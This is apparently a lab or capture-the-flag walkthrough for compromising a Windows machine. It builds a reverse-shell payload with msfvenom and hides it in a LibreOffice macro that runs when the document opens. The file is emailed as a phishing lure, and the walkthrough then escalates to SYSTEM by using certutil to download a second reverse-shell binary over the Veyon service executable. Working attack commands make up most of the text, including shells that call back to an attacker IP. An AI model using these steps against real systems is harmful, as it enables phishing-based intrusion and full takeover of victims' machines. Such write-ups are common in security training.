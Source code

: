 Make a .odt reverse shell:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.201 LPORT=4444 -f hta-psh -o evil.hta
```
Then put the payload in the following **splitter.py**:
![](../attachment/b199a8c27997cca0b9e91e4a477dee5b.png)
```
python3 splitter.py
```
![](../attachment/12d2eb414151918314a5d1b1807a0568.png)
Now we can make the .odt file from [[LibreOffice Macros]]:
Tools-> macros->Organise macros-->Basic![](../attachment/8b78addc9436e1d3924450e5ea44720e.png)
![](../attachment/30ccc3d05e6bb12b88e864ac6ab74afd.png)
Now we can set the macro to run on opening document:
Tools-->Customise:
![](../attachment/0388372b75812b418eb3b74a2b6ce7e8.png)

Now we can send it:
```
sendemail -f 'jonas@localhost' \
-t 'mailadmin@localhost' \
-s 192.168.219.140:25 \
-u 'a spreadsheet' \
-m 'Please check this spreadsheet' \
-a shell.ods
```
We get a shell:
![](../attachment/aab5a36053ce487c9c7faa3f4a04d0c7.png)

We find veyon at `C:\User\Ela Arwel\Veyon`:
![](../attachment/9150b565f1b289f89490f902ec83f093.png)
To check for unquoted service paths:
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
![](../attachment/9bd2639139e0b5403feaad1aff0335ef.png)
Create payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.201 LPORT=445 -f exe -o rev.exe
```
Start a python server
```
python3 -m uploadserver 80
```
Now in the target:
```
move veyon-service.exe veyon-service.bak
```
```
certutil -urlcache -f http://192.168.45.201:/rev.exe veyon-service.exe
```
Now restart:
```
shutdown /r /t 0
```
Listen for a shell:
```
rlwrap nc -nlvp 445
```
Now we are system:
![](../attachment/4f6eb64f0e01fe0ee4a2530d66982d15.png)
